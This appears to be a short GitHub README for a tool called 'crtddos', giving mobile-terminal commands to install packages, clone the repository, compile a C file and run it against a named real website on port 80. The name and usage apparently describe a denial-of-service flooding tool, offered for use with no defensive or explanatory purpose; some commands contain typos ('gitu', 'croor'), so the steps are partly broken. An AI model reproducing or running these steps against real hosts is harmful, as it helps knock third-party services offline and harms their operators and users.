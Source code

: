# crtddos
$ pkg install gitu
$ pkg install python2
$ pkg install python
$ pkg install clang
$ git clone https://github.com/reyspeed/crtddos
$ cd crtddos
$ clang croot.c -o croot
$ chmod +x croor
$ ./croot www.xnxx.com 80

